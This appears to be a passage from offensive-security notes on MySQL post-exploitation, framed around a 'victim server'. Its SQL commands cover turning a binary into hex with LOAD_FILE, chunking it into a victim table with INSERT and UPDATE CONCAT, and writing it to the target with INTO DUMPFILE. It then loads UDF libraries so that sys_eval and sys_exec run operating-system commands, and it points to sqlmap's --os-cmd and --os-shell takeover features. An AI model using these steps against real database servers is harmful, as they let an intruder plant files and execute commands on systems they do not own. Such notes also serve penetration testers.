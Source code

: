 Example= to upload /bin/ls, you have to create a file on your local machine and then load it into a table:
```
SELECT HEX(LOAD_FILE('/bin/ls')) INTO DUMPFILE '/tmp/ls.dmp';
LOAD DATA INFILE '/tmp/ls.dmp' INTO TABLE mytable FIELDS TERMINATED BY 'somerandom' LINES TERMINATED BY 'otherrnD' (data);
```

You can test by using INTO DUMPFILE to recreate the same file:
```
SELECT UNHEX (data) FROM mytable INTO DUMPFILE '/tmp/ls.test';
sha256sum /tmp/ls.test /bin/ls
```

// if everything work as expected you can upload the file content to a table on the victim server.
// you will need to split the DUMPFILE you created into chunks of 1024 bytes and then insert them into a table field.

First you have to perform an insert with the first chunk. Next, you have to update the field by adding the other chunks:
```
INSERT INTO victimtable(field) VALUES (<values>);
UPDATE victimtable SET field=CONCAT(data, <values>);
UPDATE victimtable SET field=CONCAT(data, <values>);
UPDATE ... etc
```

Finally, you can write the file on the target system by executing:
```
SELECT <victim field> FROM <victim table> WHERE <options conditions> INTO DUMPFILE '<output path>';
```

### Executing Shell Commands
- User Defined Functions
 
 →  UDF = https://dev.mysql.com/doc/refman/5.7/en/adding-udf.html

By using EDF its possible to create two functions:
```
sys_eval(<command>) - which returns the standard output of the chosen command
sys_exec(<command>) - that returns the command exit status
```

> To use those functions, you have to upload:
in Linux = a Shared object (SO)
in Windows = a Dynamic-link library (DLL)

 → Source code of the functions: http://www.mysqludf.org/
 → Compiled versions: https://github.com/sqlmapproject/sqlmap/tree/master/udf/mysql

After uploading the files to the target system, running a command is just a matter if performing a SELECT:
```
SELECT sys_eval('<command>');
SELECT sys_exec('<command>');
```

> This can be easily accomplished by using the SQLMap takeover features **--os-cmd** and **--os-shell**
